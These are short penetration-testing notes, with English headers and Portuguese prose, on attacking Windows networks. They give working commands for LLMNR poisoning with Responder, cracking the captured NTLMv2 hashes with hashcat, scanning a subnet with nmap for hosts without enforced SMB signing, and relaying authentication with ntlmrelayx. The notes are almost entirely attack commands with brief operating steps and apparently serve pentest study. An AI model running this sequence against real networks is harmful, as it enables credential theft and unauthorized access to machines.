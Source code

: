 # LLMNR Poisoning 

sudo responder -I eth0 -dwP
hashcat –m 5600 <hashfile.txt> <wordlist.txt>

# SMB Relay Attacks

nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24

Reuniremos todas as estações de trabalho sem assinatura SMB imposta e as colocaremos em um arquivo chamado targets.txt 



Utilizaremos Responder e ntlmrelayx para nosso ataque. Devemos primeiro configurar adequadamente o Responder para desabilitar as respostas SMB e HTTP, pois elas serão encaminhadas para ntlmrelayx (e eventualmente retransmitidas).

sudo nano  /etc/responder/Responder.conf

sudo responder –I eth0 -dwP



Por fim, iniciaremos o ntlmrelayx e aguardaremos a ocorrência de um evento.

sudo ntlmrelayx.py –tf targets.txt –smb2support

